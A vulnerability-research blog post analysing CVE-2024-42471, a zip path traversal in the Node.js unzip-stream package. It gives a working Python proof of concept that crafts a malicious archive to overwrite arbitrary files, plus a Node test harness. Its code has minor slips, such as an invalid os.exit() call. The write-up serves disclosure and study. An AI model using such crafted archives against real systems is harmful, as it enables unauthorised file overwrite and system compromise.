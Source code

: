 ```yaml
---
title: CVE-2024-42471 - unzip-stream Vulnerability Ananlysis and PoC
date: 2025-04-18 09:00:00 +0800
categories: [Vulnerability Research, Exploit Development]
tags: [arbitrary file write, file overwrite, link following]
math: true
mermaid: true
media_subpath: /assets/posts/2025-04-18-unzip-stream-PoC
image:
  path: preview.png
---
```


# Vulnerability anaylsis and PoC Development for CVE-2024-42471

## Introduction
Zip it, unzip it — and boom, you've got unintended file writes on your hands.

In this post, we dive into a directory traversal vulnerability in the popular Node.js package [`unzip-stream`](https://www.npmjs.com/package/unzip-stream), specifically affecting versions **before 0.3.2**. When using the `Extract()` method to decompress zip files, a specially crafted archive can escape the intended extraction directory and **write files to arbitrary locations** on the file system.

In this blog post, we’ll break down the bug and walk through a working proof-of-concept (PoC).

## Vulnerability Analysis
After developing an exploit for [CVE-2024-12905](https://github.com/advisories/GHSA-pq67-2wwv-3xjx), I became curious about other file write or overwrite vulnerabilities that lacked a public proof-of-concept (PoC). During that exploration, I came across [CVE-2024-42471](https://github.com/advisories/GHSA-6jrj-vc65-c983).

Once again, I decided to roll up my sleeves and develop an exploit for this vulnerability. In this post, I’ll walk you through the process, from vulnerability analysis to crafting a working PoC that demonstrates the risks involved.

I started off by looking at the [commit](https://github.com/mhr3/unzip-stream/commit/ab67989719abb4dcc774d02de266151905b8d45a) that fixed the vulnerability and basically the patch diff.

In *Figure 1* we can see the commit and that line `291` was deleted and replaced. 
![GitHub commit](github_patch_diff.png)

Firstly, the `entry.path` object in `unzip-stream` determines the path of the file within the zip archive, and this path is then used by `unzip-stream` to decide where to extract the file on the target system.

The original code (highlighted in red) relied on a regular expression to detect and remove directory traversal sequences. However, this approach was limited and prone to bypasses. To address this, the code was updated with a newer implementation (shown in green), which aims to handle the directory traversal issue more effectively.


To better understand how this regex behaves, we can use [Regexr](https://regexr.com/) to test various payloads.

For instance, when testing the classic directory traversal pattern `../`, we immediately get a match:

![Testing Raw Directory Traversal](testing_with_regexr.png)
*Figure 1: Testing the regex filter*

Upon further examination of the regex, I realized that it only matches strings that begin with the `../` pattern. This creates an opportunity for bypassing the filter by using alternative traversal strings, such as `hack/../../../`, which the regex does not catch.

This bypass technique is demonstrated in *Figure 2*.

![Bypassing Regex](bypassing_regex_on_regexr.png)
*Figure 2: Bypassing the regex filter*

As shown, this approach successfully bypasses the regex and allows for directory traversal, exposing the limitations of the old filtering mechanism.

This implies that an attacker can craft a zip file containing file paths with directory traversal strings. By doing so, they can manipulate the extraction process to point to files located outside the intended extraction directory, potentially overwriting sensitive files or causing other unintended behavior.

## Exploit Development
I developed a working exploit using Python. The core idea is to modify the path of the file within the zip archive to include directory traversal sequences before packaging it. This tricks the vulnerable `unzip-stream` extractor into writing files outside of the intended directory.

```python
import zipfile
import os

file_path = './poc'
zip_name = 'evil.zip'
path_to_overwrite_file = 'home/mcsam/pocc'

if not os.path.isfile(file_path):
    print(f"Error: File '{file_path}' does not exist.")
    os.exit()

with zipfile.ZipFile(zip_name, 'w', zipfile.ZIP_DEFLATED) as zipf:
    zipf.write(file_path, \
    arcname=f'hack/../../../../../../../../../../../../../../{path_to_overwrite_file}')
    print(f"File '{file_path}' has been zipped as '{zip_name}'.")
```

There’s an important issue we need to address. The built-in Python `zipfile` library enforces a restriction that prevents  `arcnames` starting with alphanumeric characters from containing directory traversal sequences like `../`. FYI arcname is the name that will be used for the file within the archive.

Because of this limitation, I had to manually patch the `zipfile.py` module to disable the validation check that enforces this behavior. This allowed me to create zip entries with traversal paths necessary for the exploit to work.

On my system the path to the file was: `/usr/lib/python3.10/zipfile.py`. I commented out the check and the i run the exploit to craft the malicious zip file.
![Patching Zipfile for python3](patching_zipfile_python3.png)

The contents of the zip file should look like this after running the exploit:
```
mcsam@0x32:~/Documents/slippy$ unzip -l evil.zip 
Archive:  evil.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
       15  2025-04-18 18:35   hack/../../../../../../../../../../../../../../home/mcsam/pocc
---------                     -------
       15                     1 file
```

## Verifying / Testing the Exploit

To test this PoC, we first set up a development environment and install the vulnerable version of `unzip-stream` using:

```
npm install unzip-stream@0.3.1
```

Next, I crafted a simple test script (`index.js`) that imports `unzip-stream` and extracts the malicious archive:
```
const unzip = require('unzip-stream');
const fs = require('fs');

fs.createReadStream('evil.zip').pipe(unzip.Extract({ path: './hack' }));
```

After executing the script with:
```
node index.js
```
the payload is triggered, and the file `/home/msam/pocc` is successfully overwritten — confirming the exploit works as intended.

#### Verifying the exploit
![Final file overwrite](successfull_file_overwrite.png)

## References
- [https://github.com/advisories/GHSA-6jrj-vc65-c983](https://github.com/advisories/GHSA-6jrj-vc65-c983)
- [https://github.com/mhr3/unzip-stream/commit/ab67989719abb4dcc774d02de266151905b8d45a](https://github.com/mhr3/unzip-stream/commit/ab67989719abb4dcc774d02de266151905b8d45a)
- [https://www.npmjs.com/package/unzip-stream](https://www.npmjs.com/package/unzip-stream)